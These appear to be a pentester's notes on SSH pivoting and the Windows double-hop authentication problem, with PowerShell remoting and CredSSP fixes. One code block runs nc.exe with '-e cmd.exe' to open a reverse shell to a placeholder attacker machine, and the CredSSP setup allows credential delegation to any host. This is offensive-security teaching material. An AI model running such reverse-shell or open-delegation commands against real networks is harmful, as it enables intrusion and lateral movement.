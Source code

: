 ## SSH Pivoting/Tunneling 
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file) 
  
## Double hop authentication problem fix  
   
**What is the double hop problem ?**  
*(Source from ATTL4S : https://www.youtube.com/watch?v=p9QFdITuvgU)*  
  
Services that support Windows authentication carry out something called client impersonation.  
When we access a service :   
1- Credentials are verified  
2- An Access Token with the security context (SID, name, groups, etc.) of your user is created  
3- The service places a copy of that Token into a new thread  
4- That thread can act on your behalf and is subject to the restrictions imposed
by ACLs  
  
The process is detailed in the picture below:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/98-PentestAD-token_impersonation.png?raw=true)  
  
The problem is that when authenticating from an interactive authentication, credentials are (usually) stored in lsass.exe for SSO purposes.  
When authenticating from a network authentication, credentials are NOT (usually) stored in lsass.exe, so our credentials will not be cached on the target server.  
  
Interactive authentication vs network authentication:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/97-PentestAD-interactive_vs_network_authentication.png?raw=true)  
  
On the last jump, the service does not have the credentials to act as on behalf of the user :  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/99-PentestAD-double_hop.png?raw=true)   
  
**How to solve the double hop problem ?**  
*(Sources : https://notes.qazeer.io/general/pivoting)*   
This Microsoft document explains how to face the "double hop" problem :   
https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.3&viewFallbackFrom=powershell-7.1  

To solve the "double hop" authentication problem, which occurs whenever trying to access resources on a third server from the first remotely connected server, the `-Credential` argument inside the `Invoke-Command` cmdlet and the CredSSP authentication mechanism can be used. Simply put, the problem happens because credentials are not allowed for delegation and thus can't be passed whenever accessing network resources from the remotely connected system. All access ends up being unauthenticated and results in Access denied errors.  
Using `-Credential` inside `Invoke-Command`:  
```
$user = 'domain.lol\johnfromthegarden'
$pass = 'Habile!123'
$secpasslol = ConvertTo-SecureString $pass -AsPlainText -Force
$creds = New-Object system.management.automation.PSCredential $user,$secpasslol

Invoke-Command -ComputerName 192.168.110.54 -Credential $creds -ScriptBlock {c:\temp\leperche\nc.exe <the_attacker_machine_listening> 443 -e cmd.exe}
```

If using CredSSP, supports for CredSSP must be activated and configured on the client attacking system. The configuration below allows delegation to any system.
```
winrm quickconfig
Set-Item WSMan:localhost\client\trustedhosts -value *
Enable-WSManCredSSP -Role "Client" -DelegateComputer "*"  
```
```
Start gpedit.msc
-> "Local Computer Policy" -> "Computer Configuration" -> "Administrative Templates" -> "System" -> "Credential Delegation"
-> In the "Settings" pane, "Allow Delegating Fresh Credentials with NTLM-only Server Authentication". -> "Enabled"
-> And in the "Options" area, "Show" -> "Value" = WSMAN/*
-> "Concatenate OS defaults with input above" checked
Once CredSSP is activated and correctly configured, the PowerShell cmdlets Invoke-Command and Enter-PSSession can be used with the -Authentication CredSSP option to make connections using CredSSP.
```  
  
